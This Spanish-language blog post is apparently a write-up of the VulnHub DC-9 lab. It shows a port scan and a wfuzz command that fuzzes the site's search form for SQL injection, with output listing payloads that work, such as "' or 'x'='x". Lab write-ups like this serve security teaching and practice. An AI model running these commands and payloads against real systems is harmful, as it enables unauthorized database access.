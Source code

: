 ```yaml
---
layout: post
title: DC-9 - VulnHub
subtitle: DC-9 - VulnHub
tags: [sql,portknocking]
---
```


## Puertos abiertos

```
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

### Servicio web 80

![web](../assets/imgs/dc9/web.png)

#### SQLi error based

Dentro de la opción `Search` aplicamos fuzzing para probar si es vulnerable a inyección SQL.

```
❯ wfuzz -c -t 50 -X POST -u "http://192.168.0.114/results.php" -w /usr/share/wordlists/SecLists/Fuzzing/SQLi/quick-SQLi.txt -d "search=FUZZ" --hh 1056
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.114/results.php
Total requests: 77

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000001:   200        54 L     250 W      3165 Ch     "'-'"                                                                 
000000005:   200        54 L     250 W      3165 Ch     "'*'"                                                                 
000000004:   200        54 L     250 W      3165 Ch     "'^'"                                                                 
000000026:   200        54 L     250 W      3165 Ch     "' or 'x'='x"                                                         
000000043:   200        54 L     250 W      3165 Ch     "admin'or 1=1 or ''='"                                                
```